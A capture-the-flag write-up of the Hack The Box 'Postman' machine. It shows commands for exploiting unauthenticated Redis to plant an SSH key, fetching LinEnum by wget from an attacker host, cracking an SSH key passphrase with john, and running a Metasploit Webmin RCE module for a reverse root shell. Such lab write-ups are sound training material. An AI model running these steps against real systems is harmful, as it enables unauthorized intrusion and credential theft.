# Hack The Box - Postman - Writeup

<p align="center">
  
</p>

# Reconnaissance

Run a Full Nmap Scan to find all the open ports & the services associated with them.

```
nmap -sC -sV -p- -oA full-port-scan 10.10.10.160 -vvv
```

<p align="center">
  
</p>

Port 80 contains a webpage. A usual Directory brute-forcing on the page shows nothing interesting to work upon.

<p align="center">
  
</p>

Port 6379 is running a redis server. There is no authentication kept in place. 
We can use a command line tool called ```redis-cli``` to interact with it.


```
redis-cli -h 10.10.10.160 -p 6379
```

This command can be used to get the current working directory of redis.

```
config get dir
```

<p align="center">
  
</p>

The path to ssh is found: ```/var/lib/redis/.ssh```


# Exploitation

The redis server (Version 4.0.9) is running on port 6379. <a href="https://github.com/Avinash-acid/Redis-Server-Exploit">Here</a> is a working exploit for the same.

A slight modification is needed in the exploit script to change the ```config set dir``` path:

<p align="center">
  
</p>

Once the script is edited, it can be run via following command:

```
python redis.py 10.10.10.160 redis
```

<p align="center">
  
</p>

It will ask the path to save SSH key.

```
/root/.ssh/id_rsa
```

Once the script runs, it will try to SSH into redis user.

<p align="center">
  
</p>

Finally we get a shell as redis user on the box.

<p align="center">
  
</p>

# Privilege Escalation

Lets transfer Local Linux Enumeration & Privilege Escalation Checks script to the compromised machine via Python server.
The script can be found <a href="https://github.com/rebootuser/LinEnum">here.</a>

* Run Python Server on the Local Machine containing the script (in the same path) via this command:

```
python -m SimpleHTTPServer 9090
```

<p align="center">
  
</p>

* On the target machine, type the following commands to download the script:

```
cd /tmp
wget http://10.10.15.196:9090/linenum.sh
```

<p align="center">
  
</p>

* Run the exploit script with thorough-tests enabled:

```
chmod +x linenum.sh
./linenum.sh -t
```

<p align="center">
  
</p>


* Once the scan finishes, it finds a backup SSH key in the ```/opt``` folder. Additionally, it is revealed that a user ```Matt``` exists on the box.

<p align="center">
  
</p>

Save this key on the local machine and try to brute-force it to find a possible candidate for the passphrase.

<p align="center">
  
</p>

Type the following commands:

```
./ssh2john.py id_rsa.bak > id_rsa.hashes
john id_rsa.hashes --wordlist=/usr/share/wordlists/rockyou.txt
john --show id_rsa.hashes
```

<p align="center">
  
</p>

Unfortunately the SSH key doesn't work to login as Matt user on the box.
While on the box, we can switch to ```Matt``` user and supply password as ```computer2008```

```
su Matt
```

<p align="center">
  
</p>

Finally the User Flag is retrieved.

<p align="center">
  
</p>

# Getting a root shell

The Port 10000 is also open and runs a Webmin interface (Version 1.910) 

<p align="center">
  
</p>

The Username & Password found above serves as a valid Login Credentials to the Webmin server.

<p align="center">
  
</p>

The Webmin Version 1.910 contains 'Package Updates' Remote Command Execution Vulnerability. The Metasploit module for the same also exists.

* Start the Metasploit using following command:

```
msfdb run
```

<p align="center">
  
</p>

* Type the following commands to configure the exploit & then run it:

```
use exploit/linux/http/webmin_packageup_rce
set rhosts 10.10.10.160
set lhost tun0
set ssl true
set username Matt
set password computer2008
run
```

<p align="center">
  
</p>

Once the Command Shell is opened, type the following to get an interactive shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

<p align="center">
  
</p>


Finally the root flag is retrieved.
